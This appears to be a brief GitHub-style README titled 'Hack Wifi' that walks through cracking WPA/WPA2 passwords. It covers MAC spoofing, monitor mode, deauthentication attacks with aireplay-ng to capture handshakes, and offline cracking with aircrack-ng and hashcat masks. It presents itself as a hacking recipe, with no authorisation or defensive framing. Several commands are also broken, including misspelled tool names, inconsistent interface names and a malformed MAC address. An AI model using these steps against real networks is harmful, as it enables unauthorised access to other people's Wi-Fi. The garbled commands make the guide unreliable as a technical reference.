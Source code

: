# Hack Wifi
## macos
https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
## kali or ubuntu
hack wifi (wpa2-wpa) with kali or ubuntu
#### new terminal 1
You can change your mac address(Optional)
```
ifconfig wlan0 down
macchanger -m 00:00:00:00:00 wlan0
ifconfig wlan0 down
```
then You have to switch to monitor mode
```
airmon-ng start wlan0
```
#### new terminal 2
look available Wifis
```
airodump wlan0mon

airodump-ng -c channel --bssid MAC -w /root/Desktop/ mon0

```
#### new terminal 3
attack to get handshake in terminal 2
```
aireplay-ng -0 <60> -a <BSSID> wlan0mon
```
#### final step
after You get handshake in (2)

you can try to crack password
```
aircrack-ng -w <wordlist> -b <BSSID> <handshake file>
```
##### or
you can crack with GPU . its faster and better with hashcat

first convert handshake file
```
airecrack-ng <INP> -J <OUT> #cap to hcap   
```
then
```
hashcat -m 2500 -u 4096 <.hcap file> <wordlist>
```
hashcat manual
```
-a3 #brute force mode

?l=abc...z
?d=012...9
?u=ABC...Z
?s=!#...{}
?a=?l?u?d?s
```
